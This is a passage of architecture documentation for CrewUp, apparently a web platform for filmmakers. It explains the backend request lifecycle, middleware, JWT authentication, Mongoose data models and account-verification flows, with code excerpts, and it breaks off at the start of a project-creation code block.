    ├── tailwind.config.js               # [Frontend] Custom colors, typography, layout themes
    └── src/
        ├── middleware.js                # [Frontend] Edge middleware enforcing private launch gate (?ref= key)
        ├── lib/
        │   ├── api.js                   # [Frontend] Axios client with Bearer request interceptor & 401 redirect
        │   ├── auth.js                  # [Frontend] LocalStorage wrappers (saveAuth, getToken, clearAuth)
        │   └── profileCompleteness.js   # [Frontend] Calculates creator profile completion percentage
        ├── hooks/
        │   ├── useAuth.js               # [Frontend] React AuthContext provider, user state, login/logout handlers
        │   ├── useSocket.js             # [Frontend] Persistent singleton Socket.io client hook with auto-reconnect
        │   └── useScrollAnimation.js    # [Frontend] Viewport intersection animation triggers
        ├── app/                         # [Frontend] Next.js App Router Structure
        │   ├── layout.jsx               # [Frontend] Root HTML layout, font setup, Toast Provider wrap
        │   ├── globals.css              # [Frontend] Global CSS variables, Tailwind base directives
        │   ├── (auth)/                  # [Frontend] Route group sharing clean authentication container layout
        │   │   ├── login/page.jsx       # [Frontend] User login form, Google OAuth trigger
        │   │   ├── signup/page.jsx      # [Frontend] User registration form with DOB and role selectors
        │   │   ├── verify-email/page.jsx# [Frontend] 6-digit numeric OTP entry screen
        │   │   ├── verify-phone/page.jsx# [Frontend] Phone number verification with SMS OTP
        │   │   ├── forgot-password/     # [Frontend] Password reset request dispatch form
        │   │   └── reset-password/      # [Frontend] Token-validated password reassignment form
        │   ├── (main)/                  # [Frontend] Route group sharing persistent Navbar and Footer
        │   │   ├── dashboard/page.jsx   # [Frontend] Authenticated home view, recommendations, active projects
        │   │   ├── projects/            # [Frontend] Project directory with filtering (type, role, paid, remote)
        │   │   │   ├── [id]/page.jsx    # [Frontend] Project details, role requirements, "Apply" action modal
        │   │   │   └── create-project/  # [Frontend] Wizard for creating casting calls, compensation details
        │   │   ├── explore/page.jsx     # [Frontend] Creator search grid by skills, location, availability
        │   │   ├── messages/page.jsx    # [Frontend] Split-pane real-time messaging UI (1:1 & project rooms)
        │   │   ├── notifications/       # [Frontend] Notifications center with instant read toggles
        │   │   ├── profile/[id]/page.jsx# [Frontend] Public filmmaker portfolio, video reels, verified badges
        │   │   ├── mentors/page.jsx     # [Frontend] Industry mentor directory, booking slot picker
        │   │   ├── contests/page.jsx    # [Frontend] Film competition directory and submission portal
        │   │   └── admin/page.jsx       # [Frontend] Admin portal: moderation queue, risk monitor, user flags
        │   └── waitlist/page.jsx        # [Frontend] Pre-launch landing screen for unauthenticated visitors
        └── components/
            ├── layout/ (Navbar, Footer) # [Frontend] Shared navigation header with unread badge counters
            └── ui/ (ProjectCard, etc.)  # [Frontend] Modular UI components (SkeletonCard, FollowButton, ReportModal)
```

---

## A4. Architecture Diagram & Request Lifecycle [Both]

### System Architecture Diagram
The diagram below maps how web browsers interact with client and server nodes, persistent database connections, WebSockets, and external SaaS providers:



### Complete HTTP Request Lifecycle Walkthrough
To illustrate how the backend processes incoming client actions, consider an authenticated POST request to submit a role application:

1. **Client Dispatch**: The user clicks "Submit Application" on `/projects/65f...`. The frontend hook invokes `applicationAPI.apply({ projectId, roleApplyingFor, message })`.
2. **Axios Interceptor**: The request interceptor inside [client/src/lib/api.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/client/src/lib/api.js) executes. It reads `crewup_token` from `localStorage` and appends the header: `Authorization: Bearer eyJhbGciOi...`.
3. **Network Boundary & CORS**: The request arrives at the Express HTTP server running on Railway. The `cors` middleware executes its origin callback, verifying whether the requesting domain matches `CLIENT_URL` (or its auto-expanded `www.` / non-`www.` variants). If verified, CORS headers (`Access-Control-Allow-Origin`, `Access-Control-Allow-Credentials: true`) are set.
4. **Security & Bandwidth Pipeline**:
   - `helmet()` attaches standard defensive headers.
   - `compression()` checks client `Accept-Encoding` headers.
   - `morgan()` logs the incoming request verb and timestamp.
   - `express.json({ limit: '10mb' })` parses the raw JSON payload into `req.body`.
5. **Rate Limiting Guard**: The request hits `/api` and passes through `generalLimiter` (which permits up to 120 requests/minute per client IP in production).
6. **Route Matching**: Express evaluates its route table. `app.use('/api', applicationRoutes)` matches the route definition: `router.post('/apply', protect, applyToProject)`.
7. **Authentication Middleware (`protect`)**:
   - `protect` extracts the token from `req.headers.authorization`.
   - It executes `jwt.verify(token, process.env.JWT_SECRET)`. If expired or tampered with, it immediately halts and responds with HTTP `401 Unauthorized`.
   - It executes `User.findById(decoded.id).select('-password')`.
   - It validates that `user.isActive === true` and `user.isSuspended === false`.
   - It assigns the Mongoose document to `req.user` and calls `next()`.
8. **Controller Execution (`applyToProject`)**:
   - Finds the target project and verifies `project.status === 'open'`.
   - Verifies the user is not the creator (`project.createdBy !== req.user._id`).
   - Checks for existing applications with status `pending` or `accepted` for the same role; if found, rejects with HTTP `409 Conflict`.
   - Deletes any prior `rejected`, `left`, or `removed` applications to permit re-application.
   - Executes `Application.create(...)`.
   - Creates a new `Notification` in MongoDB for the project creator.
   - Fires `emailService.sendApplicationReceived(...)` in a non-blocking asynchronous promise ("fire-and-forget").
9. **Real-Time Notification Side Effect**: The `Notification` model's Mongoose `post('save')` hook fires. It accesses `global._io` and broadcasts a `newNotification` event directly into the project owner's active socket room (`user:<ownerId>`).
10. **Response Serialization**: The controller returns `res.status(201).json({ success: true, message: 'Application submitted', data: application })`. Express passes the JSON through `compression` to gzip the payload before transmitting it back to the browser.

---

## A5. Deep Codebase Breakdown — Backend [Backend]

### `server/src/server.js`
The central nervous system of the backend application initializes the HTTP server, configures real-time socket gateways, applies defensive middleware, mounts 24 route modules, and manages process shutdown signals.

```javascript
// server/src/server.js — Core initialization & orchestration
require('dotenv').config();
const express       = require('express');
const http          = require('http');
const { Server }    = require('socket.io');
const cors          = require('cors');
const helmet        = require('helmet');
const morgan        = require('morgan');
const compression   = require('compression');
const rateLimit     = require('express-rate-limit');
```

#### Package Import Rationale
- `dotenv`: Must be invoked at line 1 before any other modules execute to ensure environment variables (`process.env`) are populated before database connections or secret references load.
- `http`: Express 4 cannot natively accept WebSocket upgrade handshakes on its own instance. Wrapping the Express `app` inside a standard Node `http.createServer(app)` allows both Express REST handlers and the Socket.io WebSocket server to share the same underlying TCP network port.
- `cors`: Handles Cross-Origin Resource Sharing headers to permit browser requests originating from the Next.js frontend domain.
- `helmet`: Sets HTTP security headers to protect against common attack vectors (MIME sniffing, clickjacking).
- `morgan`: Outputs color-coded HTTP transaction access logs to stdout for observability.
- `compression`: Compresses text and JSON payloads using Gzip, reducing network bandwidth by 60% to 80%.
- `express-rate-limit`: Protects public entry points against automated credential stuffing and denial-of-service floods.

#### CORS Logic & Auto-Expanding Origin Resolution
Web browsers reject cross-origin requests unless the server explicitly white-lists the caller's origin. In production, frontend domains frequently switch between root apex domains (`crewupfilms.com`) and subdomains (`www.crewupfilms.com`):

```javascript
// Auto-add www <-> non-www variants so both always work
const rawOrigins = process.env.CLIENT_URL || 'http://localhost:3000';
const allowedOrigins = rawOrigins.split(',').map((o) => o.trim()).filter(Boolean);

const expandedOrigins = new Set(allowedOrigins);
for (const origin of allowedOrigins) {
  try {
    const url = new URL(origin);
    if (url.hostname.startsWith('www.')) {
      expandedOrigins.add(`${url.protocol}//${url.hostname.slice(4)}${url.port ? ':' + url.port : ''}`);
    } else {
      expandedOrigins.add(`${url.protocol}//www.${url.hostname}${url.port ? ':' + url.port : ''}`);
    }
  } catch (_) { /* ignore malformed entries */ }
}

const corsOrigin = (origin, callback) => {
  // Allow requests with no origin (mobile apps, curl, Postman, server-to-server)
  if (!origin) return callback(null, true);
  if (expandedOrigins.has(origin)) return callback(null, true);
  callback(new Error(`CORS: origin ${origin} not allowed`));
};
```
- **Why this matters**: If an admin configures `CLIENT_URL=https://crewupfilms.com`, users accessing `https://www.crewupfilms.com` will not encounter broken CORS errors.
- **Null origin bypass**: Mobile apps, automated cron tasks, server-side fetch requests, and developer tools like Postman do not send an `Origin` HTTP header; returning `callback(null, true)` ensures they are not rejected.

#### Socket.io Initialization & Global Access
```javascript
const io = new Server(server, {
  cors: {
    origin:      corsOrigin,
    methods:     ['GET', 'POST'],
    credentials: true,
  },
  pingTimeout:  60000,
  pingInterval: 25000,
});

socketHandler(io);
global._io = io; // Exposed globally
```
- `pingInterval: 25000` & `pingTimeout: 60000`: The server sends a heartbeat ping every 25 seconds; if the browser client does not reply within 60 seconds, the server terminates the socket to prevent orphaned TCP connection leaks.
- `global._io`: Assigning the active Socket.io instance to Node's global object enables asynchronous lifecycle triggers (such as Mongoose model post-save hooks) to emit real-time events to connected clients without needing circular dependency injection into data models.

#### Rate Limiting Architecture
```javascript
const authLimiter = rateLimit({
  windowMs: 15 * 60 * 1000,   // 15 minutes
  max:      20,                // 20 attempts per IP per 15 min
  standardHeaders: true,
  legacyHeaders:   false,
  message: { success: false, message: 'Too many attempts, please try again later.' },
  skip: () => process.env.NODE_ENV === 'development',
});

const generalLimiter = rateLimit({
  windowMs: 1 * 60 * 1000,    // 1 minute
  max:      120,               // 120 req/min per IP
  standardHeaders: true,
  legacyHeaders:   false,
  message: { success: false, message: 'Too many requests, please slow down.' },
  skip: () => process.env.NODE_ENV === 'development',
});
```
- `authLimiter`: Strictly applied to `/api/auth` to prevent automated brute-force attacks against user passwords and OTP generators.
- `generalLimiter`: Applied broadly across all `/api` routes to prevent malicious scraping or API flooding.
- `skip: () => process.env.NODE_ENV === 'development'`: Automatically disabled during local development to prevent test workflows from triggering 429 lockout errors.

#### Ordered Middleware Stack
The registration order of Express middlewares is strictly intentional:
1. `helmet()`: Must run first to ensure security headers are attached before any response processing occurs.
2. `compression()`: Must wrap the entire chain so all data sent via `res.json()` or `res.send()` is intercepted and gzipped.
3. `cors(...)`: Must execute before routes so HTTP `OPTIONS` preflight requests can return immediately without executing application code.
4. `morgan(...)`: Logs the incoming request details.
5. `express.json({ limit: '10mb' })`: Parses incoming JSON request bodies. The 10MB limit accommodates base64 data strings (such as portfolio certificates and cropped profile pictures) without generating `PayloadTooLargeError`.
6. `express.urlencoded({ extended: true })`: Parses URL-encoded form submissions.
7. `authLimiter` & `generalLimiter`: Rate limits are applied before route controllers to reject abusive traffic early.
8. REST Route Handlers: Mounted hierarchically under `/api/...`.
9. Global 404 Handler: Catches any requests that failed to match registered endpoints.
10. Global Error Handler (`errorHandler`): Express requires error-handling middleware to be registered last with exactly 4 arguments `(err, req, res, next)`.

#### Graceful Process Termination & Uncaught Exceptions
```javascript
const gracefulShutdown = (signal) => {
  console.log(`\n${signal} received — shutting down gracefully…`);
  server.close(() => {
    console.log('✅ HTTP server closed');
    const mongoose = require('mongoose');
    mongoose.connection.close(false, () => {
      console.log('✅ MongoDB connection closed');
      process.exit(0);
    });
  });
  setTimeout(() => { console.error('⛔ Forced shutdown'); process.exit(1); }, 10_000);
};

process.on('SIGTERM', () => gracefulShutdown('SIGTERM'));
process.on('SIGINT',  () => gracefulShutdown('SIGINT'));
```
- **PaaS Lifecycle Support**: When Railway deploys new code or scales nodes, it sends a POSIX `SIGTERM` signal. The graceful shutdown handler stops accepting new HTTP connections, waits for in-flight database transactions to complete, closes the MongoDB connection pool cleanly, and exits with code 0.
- **Fail-Safe Timer**: A 10-second timeout ensures the process terminates even if a hung query prevents the server from closing naturally.
- **Production Emergency Alerts**: Listeners on `unhandledRejection` and `uncaughtException` capture runtime crashes and automatically dispatch alert emails containing error stack traces to `ADMIN_ALERT_EMAIL` before the process exits.

---

### `server/src/config/db.js`
Manages the MongoDB lifecycle through Mongoose and implements automatic index maintenance on server startup:

```javascript
const conn = await mongoose.connect(process.env.MONGO_URI, {
  maxPoolSize:              10,
  minPoolSize:              2,
  serverSelectionTimeoutMS: 5000,
  socketTimeoutMS:          45000,
  retryWrites:              true,
});
```

#### Connection Pooling Deep Dive
- Rather than establishing and tearing down costly TCP/TLS handshakes on every HTTP request, Mongoose maintains a managed pool of reusable database socket connections.
- `minPoolSize: 2`: Guarantees two connections are always hot and waiting in memory, eliminating cold-start connection latency.
- `maxPoolSize: 10`: Limits concurrent database connections to 10 per Node.js process, preventing server instances from exhausting MongoDB connection limits.
- `serverSelectionTimeoutMS: 5000`: If MongoDB crashes or becomes unreachable across the network, queries fail fast after 5 seconds rather than hanging requests indefinitely.
- `socketTimeoutMS: 45000`: Automatically aborts queries that run longer than 45 seconds to prevent runaway queries from tying up pooled sockets.
- `retryWrites: true`: Instructs the MongoDB driver to automatically retry write operations once if a transient network error occurs.

#### Self-Healing Schema Migration Logic
To prevent application crashes caused by historical schema changes, `db.js` executes automated maintenance routines every time the server boots:
1. **Drops Stale Waitlist Indexes**: Earlier schemas incorrectly marked `LaunchWaitlist.name` as unique; `db.js` scans indexes and drops any unique constraints on `name` so multiple users with identical names can join the waitlist.
2. **Purges Corrupt Follow Documents**: Removes legacy Follow documents that lack `follower` or `following` ObjectIDs, preventing them from violating unique compound constraints.
3. **Resynchronizes Follow Indexes**: Drops all existing non-`_id` indexes on the `follows` collection and invokes `Follow.syncIndexes()` to guarantee that only the current `{ follower: 1, following: 1 }` sparse unique index is enforced.

---

### `server/src/middleware/auth.js`
Enforces stateless token verification and role-based access control across routes.

#### The `protect` Middleware
```javascript
const protect = async (req, res, next) => {
  try {
    let token;
    if (req.headers.authorization && req.headers.authorization.startsWith('Bearer')) {
      token = req.headers.authorization.split(' ')[1];
    }
    if (!token) return res.status(401).json({ success: false, message: 'Not authorized — no token' });

    const decoded = jwt.verify(token, process.env.JWT_SECRET);
    req.user = await User.findById(decoded.id).select('-password');

    if (!req.user) return res.status(401).json({ success: false, message: 'User not found' });
    if (!req.user.isActive) return res.status(401).json({ success: false, message: 'Account is deactivated' });
    if (req.user.isSuspended) return res.status(403).json({ success: false, message: 'Account is suspended' });

    next();
  } catch (error) {
    if (error.name === 'JsonWebTokenError') return res.status(401).json({ success: false, message: 'Invalid token' });
    if (error.name === 'TokenExpiredError') return res.status(401).json({ success: false, message: 'Token expired' });
    res.status(500).json({ success: false, message: 'Server error' });
  }
};
```
- **Execution Flow**: Extracts the Bearer token string, cryptographically verifies its signature against `JWT_SECRET`, queries MongoDB for the associated User record (stripping the password hash), checks both account activation (`isActive`) and disciplinary status (`isSuspended`), and attaches the user document to `req.user`.
- **JWT Error Handling**: Explicitly catches `JsonWebTokenError` (malformed or tampered signatures) and `TokenExpiredError` (tokens past their 7-day validity window), returning HTTP 401 to trigger the client-side session renewal flow.

#### The `optionalProtect` Middleware
Designed for public routes that offer enhanced features for logged-in users (such as project listings displaying bookmark indicators or personalized recommendations). It attempts token extraction and validation; if a valid token is present, it populates `req.user`, but if the token is missing or invalid, it gracefully calls `next()` without rejecting the request.

#### The `adminOnly` Middleware
Must always be placed after `protect`. It evaluates `req.user.isAdmin`. If `false` or undefined, it rejects the request with HTTP `403 Forbidden`, blocking non-administrative users from sensitive monitoring and moderation endpoints.

---

### `server/src/middleware/errorHandler.js`
A centralized 4-argument Express error handler that normalizes database driver errors and exceptions into consistent, human-readable JSON payloads:

```javascript
const errorHandler = (err, req, res, next) => {
  let statusCode = err.statusCode || 500;
  let message = err.message || 'Internal Server Error';

  if (statusCode >= 500) {
    console.error(`[SERVER ERROR] ${req.method} ${req.originalUrl} →`, err.stack || err.message);
  }

  // 1. Mongoose duplicate key error (MongoDB code 11000)
  if (err.code === 11000) {
    const fields = Object.keys(err.keyValue || {});
    if (fields.includes('project') && fields.includes('applicant')) {
      message = 'You have already applied for this role on this project';
    } else {
      const field = fields[0] || 'Field';
      message = `${field.charAt(0).toUpperCase() + field.slice(1)} already exists`;
    }
    statusCode = 409;
  }

  // 2. Mongoose schema validation error
  if (err.name === 'ValidationError') {
    message = Object.values(err.errors).map((e) => e.message).join(', ');
    statusCode = 400;
  }

  // 3. Mongoose bad ObjectId (CastError)
  if (err.name === 'CastError') {
    message = 'Resource not found';
    statusCode = 404;
  }

  res.status(statusCode).json({
    success: false,
    message,
    ...(process.env.NODE_ENV === 'development' && { stack: err.stack }),
  });
};
```
- **Duplicate Key (11000) → 409 Conflict**: Translates low-level MongoDB duplicate index violations (e.g. unique constraints on `email`, `username`, or compound application keys) into friendly user messages.
- **Validation Errors → 400 Bad Request**: Extracts validation failures defined on Mongoose schema fields (e.g., maximum string lengths, required fields, invalid enum choices) and joins them into a single descriptive string.
- **CastError → 404 Not Found**: Triggered when a client passes an invalid 24-character hexadecimal string as an `_id` parameter, gracefully responding with "Resource not found" rather than crashing with an unhandled exception.
- **Development Stack Traces**: Conditionally appends `err.stack` when `NODE_ENV === 'development'`, keeping internal implementation details and file paths private in production.

---

### `server/src/utils/generateToken.js`
Issues signed, stateless JWT authentication tokens:

```javascript
const jwt = require('jsonwebtoken');

const generateToken = (id) => {
  return jwt.sign({ id }, process.env.JWT_SECRET, {
    expiresIn: process.env.JWT_EXPIRES_IN || '7d',
  });
};
```
- **Payload Design**: Embeds only the minimal necessary claim—the user's MongoDB `_id` (`{ id }`). Keeping the payload small minimizes HTTP header overhead on every subsequent request.
- **Secret & Expiration**: Encrypted with `JWT_SECRET` and configured to expire after 7 days (`7d`).

---

### `server/src/models/User.js`
The foundation of the identity and authentication layer.

#### Schema Field Definitions & Constraints
- `uid`: Unique public identifier string formatted as `CUF-YYYY-XXXXXX` (e.g. `CUF-2026-A3F7B2`). Created so users and admins can reference accounts without exposing internal MongoDB ObjectIDs.
- `name`: String, required, trimmed, max 100 characters. The user's real or professional display name.
- `username`: String, required, unique, lowercase, trimmed, 3-30 chars, validated against regex `/^[a-zA-Z0-9_]+$/`.
- `email`: String, required, unique, lowercase, trimmed, validated against standard email regex `/^\S+@\S+\.\S+$/`.
- `password`: String, minimum 8 characters, configured with `select: false`.
- `googleId`: String, unique, configured with `sparse: true`. The `sparse` property ensures MongoDB does not treat `null` values as duplicate key violations for users registered via standard email/password.
- `authProvider`: Enum `['local', 'google']`, defaults to `'local'`.
- `role`: Primary string identifier (e.g., `'Director'`, `'Cinematographer'`), defaults to `'other'`.
- `roles`: Array of strings (`[String]`), supporting multi-hyphenate filmmakers (e.g. `['Director', 'Writer', 'Editor']`).
- `profileImage`: URL string pointing to avatar image.
- `isActive`: Boolean, defaults to `true`. Enables administrative account deactivation without data deletion.
- `isSuspended`: Boolean, defaults to `false`. Blocks users from authenticating or performing actions when flagged for misconduct.
- `isAdmin`: Boolean, defaults to `false`. Grants access to administrative dashboards and moderation queues.
- `bookmarks`: Array of ObjectIDs referencing `Project` documents.
- `gender`: Enum `['male', 'female', 'non-binary', 'prefer-not-to-say', '']`.
- `dateOfBirth`: Date object, defaults to `null`.
- `isMinor`: Boolean, defaults to `false`. Calculated automatically from `dateOfBirth` to safeguard underage users.
- `isEmailVerified`: Boolean, defaults to `false`. Gatekeeper for posting casting calls.
- `emailOTP`: Sub-document containing `code` (String, `select: false`) and `expiresAt` (Date, `select: false`).
- `phone`: Sub-document containing `number` (String) and `isVerified` (Boolean).
- `phoneOTP`: Sub-document containing `code` (String, `select: false`) and `expiresAt` (Date, `select: false`).
- `resetPasswordToken`: String, `select: false`. Stores SHA-256 hash of password reset tokens.
- `resetPasswordExpires`: Date, `select: false`. Expiration timestamp for password reset links.

#### Lifecycle Hooks & Model Methods
```javascript
// Auto-generate uid & hash modified passwords before saving
userSchema.pre('save', async function (next) {
  if (!this.uid) {
    const year = new Date().getFullYear();
    const hex  = crypto.randomBytes(3).toString('hex').toUpperCase();
    this.uid   = `CUF-${year}-${hex}`;
  }
  if (this.isModified('password') && this.password) {
    const salt   = await bcrypt.genSalt(12);
    this.password = await bcrypt.hash(this.password, salt);
  }
  next();
});

userSchema.methods.comparePassword = async function (candidatePassword) {
  return bcrypt.compare(candidatePassword, this.password);
};

userSchema.methods.toJSON = function () {
  const obj = this.toObject();
  delete obj.password;
  return obj;
};
```
- **Pre-Save Salt Rounds (12)**: Uses 12 bcrypt salt rounds, which balances robust resistance against offline brute-force attacks with reasonable CPU hashing times (~250ms).
- **Password Protection via `select: false` & `toJSON`**: Sensitive credentials use `select: false` at the schema level so standard queries do not accidentally return password hashes or OTP codes. Additionally, the overridden `toJSON` method strips the password property whenever a User document is converted to JSON for API responses.

---

### `server/src/models/Profile.js`
Stores rich portfolio details, mentor configurations, and casting safety tracking:
- `user`: ObjectId referencing `User`, required, marked `unique: true` to enforce a 1:1 relationship between accounts and profiles.
- `bio`: String, max 500 characters.
- `skills`: Array of strings, constrained by a custom validator to a maximum of 20 items.
- `location`: Structured sub-document storing `{ city, district, state, country }`.
- `locationVisible`: Boolean, defaults to `true`. Allows creators to hide their exact geographical location from public Creator Maps.
- `portfolioLinks`: Array of `{ label, url }` pairs for external sites (Vimeo, personal domains).
- `experienceLevel`: Enum `['beginner', 'intermediate', 'advanced', 'professional']`.
- `availability`: Enum `['available', 'busy', 'open-to-offers']`.
- **Mentorship Sub-Schema**:
  - `isMentor`: Boolean, activates mentor directory profile.
  - `mentorStatus`: Enum `['open', 'paused', 'closed']`.
  - `mentorFields`: Array of specializations (e.g., `['Directing', 'Color Grading']`).
  - `mentorRate`: Number, pricing per session.
  - `mentorCurrency`: String, defaults to `'INR'`.
  - `mentorExperience`: Number (years in the film industry).
  - `mentorWeeklySchedule`: Array of available weekly slots defining `{ day (0-6), startTime, endTime }`.
  - `mentorBlockedDates`: Array of date strings (`YYYY-MM-DD`) for mentor vacations/blackouts.
- **Portfolio Gallery**: Sub-document array supporting items of type `video`, `image`, `audio`, `link`, `certificate`, or `other`, including certificate fields (`issuer`, `credentialId`, `certificateFileUrl`).
- **Safety Tracking**:
  - `emergencyContact`: Sub-document containing `{ name, phone, relationship }`.
  - `safeCheckIn`: Real-time safety tool for set visits, recording counter-party identity (`meetingWith`), location, scheduled check-in times, and check-out confirmations.

---

### `server/src/models/Project.js`
Defines production casting calls, crew requirements, and safety governance records:
- `title`: String, required, max 150 characters.
- `description`: String, required, max 2000 characters.
- `projectType`: Enum covering 11 categories: `short-film`, `feature-film`, `youtube`, `music-video`, `podcast`, `web-series`, `documentary`, `commercial`, `photography`, `music`, `other`.
- `requiredRoles`: Array of strings, required, validated to ensure at least 1 role is specified.
- `isPaid`: Boolean, defaults to `false`.
- `budget`: String describing available funding.
- `location`: Sub-document `{ city, country, isRemote }`.
- `status`: Enum `['open', 'in-progress', 'completed', 'cancelled']`, defaults to `'open'`.
- `createdBy`: ObjectId referencing `User`, required.
- `teamMembers`: Array of objects `{ user: ObjectId, role: String, joinedAt: Date }`.
- `roleDescriptions`: Mongoose `Map` of strings, allowing creators to define role-specific briefs (e.g. `roleDescriptions.set("Sound Recordist", "Must own boom mic and zoom recorder")`).
- `rolePositions`: Mongoose `Map` of numbers, defining target headcounts for each role (e.g. `rolePositions.set("Actor", 3)`).
- `compensationDetails`: String, max 300 characters. **Mandatory when `isPaid === true`** to ensure full transparency regarding payment terms.
- `shootingLocationType`: Enum `['studio', 'public-location', 'remote', 'flexible', 'not-specified']`.
- **Fraud Detection & Moderation Fields**:
  - `moderationStatus`: Enum `['pending', 'approved', 'rejected']`.
  - `autoSuspended`: Boolean flag for projects flagged for abuse.
  - `riskScore`: Numerical risk rating (0–100) calculated on project creation.
  - `riskLevel`: Categorical classification (`'low'`, `'medium'`, `'high'`).
  - `riskFlags`: Array of strings identifying specific detected risk factors.
- `isDraft`: Boolean flag. Draft projects remain hidden from public search feeds until explicitly published.
- **Indexes**:
  - `{ status: 1, projectType: 1, createdAt: -1 }`: Compound index for filtering open projects by type, sorted by recency.
  - `{ 'location.country': 1 }`: Optimized for geographical filtering.

---

### `server/src/models/Application.js`
Manages talent applications to casting calls:
- `project`: ObjectId referencing `Project`, required.
- `applicant`: ObjectId referencing `User`, required.
- `roleApplyingFor`: String, required.
- `message`: String, required, max 1000 characters.
- `status`: Enum `['pending', 'accepted', 'rejected', 'left', 'removed']`, defaults to `'pending'`.
- `reviewedAt`: Date of creator decision.
- `reviewNote`: Optional message from the project owner explaining acceptance or rejection.
- **Compound Unique Index**:
  ```javascript
  applicationSchema.index({ project: 1, applicant: 1, roleApplyingFor: 1 }, { unique: true });
  ```
  Enforces a strict constraint at the database engine level: **a user can submit only one active application per role per project**, preventing ballot stuffing while allowing them to apply for distinct roles on the same production.

---

### `server/src/models/Conversation.js` & `Message.js`
Powers direct and group messaging across the platform:

#### `Conversation.js` (1:1 Direct Messaging)
- `members`: Array of 2 ObjectIDs referencing `User`.
- `lastMessage`: String preview of the most recent message.
- `lastMessageAt`: Timestamp of the latest message for sorting active inbox threads.
- `status`: Enum `['active', 'pending']`.
- `blockedBy`: Array of user ObjectIDs who have blocked the conversation.
- **Index**: `{ members: 1 }` guarantees rapid thread lookups for member pairs.

#### `Message.js` (Dual-Mode Delivery Engine)
- `sender`: ObjectId referencing `User`, required.
- `conversationId`: ObjectId referencing `Conversation`, defaults to `null`.
- `projectChatId`: ObjectId referencing `ProjectChat`, defaults to `null`.
- `text`: String, required, max 2000 characters.
- `readBy`: Array of user ObjectIDs who have viewed the message.
- `isFlagged` & `containsContactInfo`: Safety flags populated by message scanning algorithms.
- **Dual Indexing**:
  - `{ conversationId: 1, createdAt: 1 }`: Optimizes chronological thread retrieval for 1:1 chats.
  - `{ projectChatId: 1, createdAt: 1 }`: Optimizes group chat message history retrieval.

---

### `server/src/models/Notification.js`
Centralized notification pipeline supporting 21 discrete event types:
- **Enum Types**: `application_received`, `application_accepted`, `application_declined`, `role_filled`, `new_message`, `follow_request`, `follow_accepted`, `project_invite`, `message_request`, `message_request_accepted`, `mentorship_request`, `booking_requested`, `booking_confirmed`, `booking_cancelled`, `booking_completed`, `booking_message`, `contest_announcement`, `contest_submission`, `platform_update`, `general`, `report_submitted`.
- `link`: Frontend route URL (e.g. `/projects/65f.../applications`) for in-app navigation.
- `read`: Boolean flag, defaults to `false`.
- **Indexes**: `{ recipient: 1, createdAt: -1 }` and `{ recipient: 1, read: 1 }`.
- **Real-Time Post-Save Hook**:
  ```javascript
  notificationSchema.post('save', function (doc) {
    try {
      const io = global._io;
      if (io) io.to(`user:${doc.recipient}`).emit('newNotification', doc.toObject());
    } catch (_) {}
  });
  ```
  Whenever any controller creates a notification, Mongoose automatically pushes the record across WebSockets directly into the recipient's personal room (`user:<id>`).

---

### `server/src/models/Follow.js` & `Contest.js`

#### `Follow.js`
- `follower`: ObjectId referencing `User`, required.
- `following`: ObjectId referencing `User`, required.
- **Sparse Unique Compound Index**:
  ```javascript
  followSchema.index({ follower: 1, following: 1 }, { unique: true, sparse: true });
  ```
  Prevents duplicate follow relationships between the same two users. The `sparse: true` configuration ensures legacy documents missing these fields do not cause write collisions.
- **Lookup Index**: `{ following: 1 }` allows the system to query "who follows user X?" efficiently.

#### `Contest.js`
- Represents filmmaking competitions with fields for `title`, `description`, `rules` (`[String]`), `prizeAmount`, `prizeDescription`, `submissionDeadline`, `theme`, `maxDuration`, `allowedLanguages`, and `teamFormedAfter`.
- `winners`: Array storing placements (1st, 2nd, 3rd), winning user ObjectIDs, team member references, and notes.

---

### `server/src/controllers/authController.js`
Implements user onboarding, identity verification, and recovery mechanisms:

#### 1. `register`
- **Inputs**: `name`, `username`, `email`, `password`, `role`, `roles`, `dateOfBirth`, `gender`.
- **Validation & Duplicate Verification**: Runs `express-validator` rules, checks for existing accounts matching `email` or `username`, and returns HTTP 409 if taken.
- **Minor Calculation**: Runs `computeIsMinor(dateOfBirth)` to tag underage users.
- **Execution Flow**: Hashes password, generates a 6-digit numeric OTP with a 10-minute expiration window, creates the `User` record, creates an empty associated `Profile`, fires `sendEmailOTP` asynchronously ("fire-and-forget"), issues a signed JWT, and responds with HTTP 201.
- **Security Considerations**: Asynchronous email delivery prevents SMTP latency from slowing down the user registration response.

#### 2. `login`
- **Inputs**: `email`, `password`.
- **Execution Flow**: Looks up the user with `.select('+password')`. Rejects if the account authenticates via Google (`authProvider === 'google'`). Runs `bcrypt.compare(password, user.password)`. Validates `user.isActive`. Issues a 7-day JWT and returns user profile data.

#### 3. `googleAuth`
- **Inputs**: `idToken`, optional registration parameters (`username`, `role`, `dateOfBirth`).
- **Token Verification**: Calls Google's OAuth2 endpoint (`https://oauth2.googleapis.com/tokeninfo?id_token=...`) via HTTPS.
- **Account Linking & Provisioning**:
  - If a user with a matching `googleId` or `email` exists, links their account, updates their avatar, and logs them in.
  - If the user is new and did not provide a username, returns `{ needsUsername: true }` so the frontend can prompt for one before completing registration.

#### 4. `sendEmailVerificationOTP` & `verifyEmail`
- **Cooldown Rate Limiting**: Checks `emailOTP.expiresAt`. If requested less than 60 seconds after the previous code was issued, rejects with HTTP 429 to prevent email flooding.
- **Verification**: Validates the 6-digit string against the stored OTP, verifies that `expiresAt > Date.now()`, updates `isEmailVerified: true`, removes the OTP subdocument, and returns a refreshed token.

#### 5. `sendPhoneOTP` & `verifyPhone`
- **Delivery Cascade**: Normalizes the phone number (auto-prepending `+91` for 10-digit Indian numbers), generates an OTP, saves it to `phoneOTP`, and passes it to `sendPhoneOTPSMS`.
- **Development Fallback**: If Twilio credentials are not configured, the service logs the code to stdout so developers can test phone verification without third-party SMS costs.

#### 6. `forgotPassword` & `resetPassword`
- **Enumeration Protection**: Regardless of whether an email exists in the database, `forgotPassword` always responds with: *"If an account with that email exists, a reset link has been sent."* This prevents attackers from testing email lists to see who has an account.
- **Cryptographic Token Storage**: Generates a 32-byte cryptographically secure random token (`crypto.randomBytes(32).toString('hex')`), computes its SHA-256 hash (`crypto.createHash('sha256').update(token).digest('hex')`), and stores the hash in `resetPasswordToken` with a 1-hour expiration. The raw, unhashed token is sent in the reset URL link.
- **Reset Handshake**: When the user clicks the link, `resetPassword` computes the SHA-256 hash of the incoming token, finds the matching record where `resetPasswordExpires > Date.now()`, updates the password (triggering bcrypt pre-save re-hashing), and wipes the reset token fields.

---

### `server/src/controllers/projectController.js` (`createProject`)
Enforces identity KYC requirements and automated fraud analysis during project creation:

```javascript
// 1. Mandatory Compensation Validation
